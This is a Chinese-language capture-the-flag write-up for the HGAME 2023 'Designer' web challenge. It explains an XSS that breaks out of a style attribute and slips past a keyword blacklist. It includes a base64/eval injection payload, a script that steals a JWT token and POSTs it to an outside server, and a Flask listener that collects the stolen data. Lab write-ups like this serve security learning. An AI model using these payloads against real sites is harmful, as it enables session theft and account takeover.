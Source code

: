## [HGAME 2023 week2]Designer

查看代码,只有本地登录的用户才能在JWT中拥有flag
<details>
<summary> button/preview 路由代码 </summary>
```js
app.post("/button/share", auth, async (req, res) => {
    const browser = await puppeteer.launch({
    headless: true,
    executablePath: "/usr/bin/chromium",
    args: ['--no-sandbox']
    });
    const page = await browser.newPage()
    const query = querystring.encode(req.body)
    await page.goto('http://127.0.0.1:9090/button/preview?' + query)
    await page.evaluate(() => {
    return localStorage.setItem("token", "jwt_token_here")
    })
    await page.click("#button")
    
    res.json({ msg: "admin will see it later" })
})
```
</details>


题目的 `/button/share` 路由是打开浏览器访问 http://127.0.0.1:9090/button/preview 这个页面。这个页面也在代码的路由中，

<details>
<summary> button/preview 路由代码 </summary>
```js
app.get("/button/preview", (req, res) => {
  const blacklist = [
    /on/i, /localStorage/i, /alert/, /fetch/, /XMLHttpRequest/, /window/, /location/, /document/
  ]
  for (const key in req.query) {
    for (const item of blacklist) {
      if (item.test(key.trim()) || item.test(req.query[key].trim())) {
        req.query[key] = ""
      }
    }
  }
  res.render("preview", { data: req.query })
})
```
</details>

常见的注入点都被过滤了，比如onclick等，不过问题不大，查阅preview.ejs代码就很容易发现：

```html
	<a class="button" id="button" style="<% for (const key in data) {  %><%- key %>:<%- data[key] %> ;<% }; %>">
	CLICK ME
	</a>
```

按钮是通过字符串拼接的方式设置style的，因此，只需要有一个"就能将HTML语句截断，由于脚本中不能出现window等词语，因此，可以考虑使用atob函数解码字符串后，使用eval函数执行语句，构造的js脚本需要能获取localStorage中的内容，并上传到接收信息的服务器。以下是我构造的脚本：
```js
async function r() {
    var a = new XMLHttpRequest();
    var b = new FormData();
    fetch('http://127.0.0.1:9090/user/register', {
        method: 'POST',
        body: { "username": "admin" }
    })
        .then(response => response.text())
        .then(data => {
            b.append('token', data);
            a.open('POST', "http://xx.cn:65502/a/stat.gif");
            a.send(b)
        })
}
r();
// 代码可能有点乱，我根据参考的writeup写的，fetch部分是gpt生成的
```

将上脚本base64编码，然后POST请求/button/share 接口，请求内容为：
```json
	{"border-radius":"\"><script>eval(atob('BASE64编码内容'))</script>"}
```

VPS中运行一个flask服务，接收请求
```python
from flask import Flask,request

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=['POST','GET'])
def catch_all(path):
    app.logger.info(request.get_data())
    return 'yes'
if __name__ == '__main__':
    app.run(debug=True,port=65502,host='0.0.0.0')
```

在vps中等着日志就行

最后将日志中获得的jwt解码一下，就获得flag

参考 [writeup](https://blog.vvbbnn00.cn/archives/hgame2023week2-bu-fen-writeup)




